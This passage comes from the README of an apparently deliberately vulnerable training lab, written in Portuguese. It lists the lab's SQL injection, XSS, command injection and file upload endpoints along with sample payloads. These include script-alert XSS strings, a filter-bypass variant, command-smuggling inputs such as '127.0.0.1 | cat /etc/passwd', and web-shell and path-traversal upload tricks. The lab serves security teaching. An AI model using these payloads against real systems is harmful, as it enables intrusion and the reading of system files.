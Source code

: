 **Como usar**:
1. Acesse o módulo SQL Injection
2. Digite um payload no campo de busca
3. Observe os dados vazados
4. Analise a explicação educacional

### **2. Cross-Site Scripting (XSS)** 🕷️
**Endpoints**: 
- `/api/xss/reflected` (XSS Refletido)
- `/api/xss/comments` (XSS Armazenado)
- `/api/xss/dom` (XSS Baseado em DOM)

**Payloads para testar**:
```html
<!-- Básico -->
<script>alert('XSS')</script>

<!-- Event handlers -->
<img src=x onerror="alert('XSS')">

<!-- SVG -->
<svg onload="alert('XSS')">

<!-- Bypass de filtros -->
<ScRiPt>alert('XSS')</ScRiPt>
```

### **3. Command Injection** ⚡
**Endpoints**:
- `/api/cmd/ping` (Injeção básica)
- `/api/cmd/network-tools` (Ferramentas de rede)
- `/api/cmd/system-info` (Informações do sistema)

**Payloads para testar**:
```bash
# Separador de comandos
127.0.0.1; id

# Operador AND
127.0.0.1 && whoami

# Pipe
127.0.0.1 | cat /etc/passwd

# Background
127.0.0.1 & ps aux
```

### **4. File Upload** 📁
**Endpoint**: `/api/upload`

**Técnicas para testar**:
- Upload de arquivos `.php`, `.jsp`, `.aspx`
- Bypass de extensão: `shell.php.jpg`
- Path traversal: `../../../etc/passwd`
- Polyglot files (múltiplos formatos)
